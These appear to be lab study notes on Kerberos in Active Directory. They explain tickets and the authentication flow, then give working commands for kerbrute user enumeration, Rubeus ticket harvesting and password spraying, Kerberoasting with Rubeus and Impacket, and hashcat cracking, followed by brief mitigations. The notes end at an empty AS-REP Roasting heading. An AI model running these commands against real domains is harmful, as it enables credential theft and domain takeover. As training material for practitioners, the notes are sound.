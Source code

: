 # Introdution
- Kerberos is the default authentication service for Microsoft Windows domains
- intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption
- NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage
- Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
- Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service
- Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets
- Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain
- Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set
- KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC
- Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key
- Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC
- Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket
- Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the use4
- AS-REQ w/ Pre-Authentication
  - The AS-REQ step in Kerberos authentication starts when a user requests a TGT from the KDC.
  - to validate the user and create a TGT for the user, the KDC must follow
    - encrypt a timestamp NT hash and send it to the AS
    - The KDC attempts to decrypt the timestamp using the NT hash from the user
    -  if successful the KDC will issue a TGT as well as a session key for the user
- the TGT is provided by the user to the KDC, in return, the KDC validates the TGT and returns a service ticket
- A service ticket contains two portions: the service provided portion and the user-provided portion. I'll break it down into what each portion contains.
  - Service Portion: User Details, Session Key, Encrypts the ticket with the service account NTLM hash
  - User Portion: Validity Timestamp, Session Key, Encrypts with the TGT session key
- Kerberos Authentication
  - AS-REQ - 1.) The client requests an Authentication Ticket or Ticket Granting Ticket (TGT)
  - AS-REP - 2.) The Key Distribution Center verifies the client and sends back an encrypted TGT
  - TGS-REQ - 3.) The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access
  - TGS-REP - 4.) The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client
  - AP-REQ - 5.) The client requests the service and sends the valid session key to prove the user has access
  - AP-REP - 6.) The service grants access
- Kerberos Tickets
  - The main ticket that you will see is a ticket-granting ticket these can come in various forms such as a .kirbi for Rubeus .ccache for Impacket
  - A ticket is typically base64 encoded and can be used for various attacks ,The ticket-granting ticket is only used with the KDC in order to get service tickets
  - Once you give the TGT the server then gets the User details, session key, and then encrypts the ticket with the service account NTLM hash
  - Your TGT then gives the encrypted timestamp, session key, and the encrypted TGT
  - The KDC will then authenticate the TGT and give back a service ticket for the requested service
  - normal TGT will only work with that given service account that is connected to it however a KRBTGT allows you to get any service ticket that you want allowing you to access anything on the domain that you want
# Enumeration w/ Kerbrute
- By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams
- When brute-forcing through Kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist
```
./TOOLS/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /home/kali/TOOLS/Active-Directory-Wordlists/User.txt
```
# Harvesting & Brute-Forcing Tickets w/ Rubeus
```
Rubeus.exe harvest /interval:30 - This command tells Rubeus to harvest for TGTs every 30 seconds
```
- Brute-Forcing / Password-Spraying w/ Rubeus
  - Rubeus can both brute force passwords as well as password spray user accounts
  - When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account
  - In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password
  ```
  Rubeus.exe brute /password:Password1 /noticket - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
  ```
# Kerberoasting w/ Rubeus & Impacket
- Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password
- If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is
- To enumerate Kerberoastable accounts use BloodHound to find all Kerberoastable account
```
Kerberoasting w/ Rubeus - 

1.) cd Downloads - navigate to the directory Rubeus is in

2.) Rubeus.exe kerberoast This will dump the Kerberos hash of any kerberoastable users
```
- copy the 2 hashes
```
hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash ---- > MYPassword123#
```

```
Kerberoasting w/ Impacket - 

1.) cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located

2.) sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.138.185 -request - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash
```

- What Can a Service Account do?
  - After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not
  - If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit
  - If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts

- Kerberoasting Mitigation
  - Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
  - Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

# AS-REP Roasting w/ Rubeus
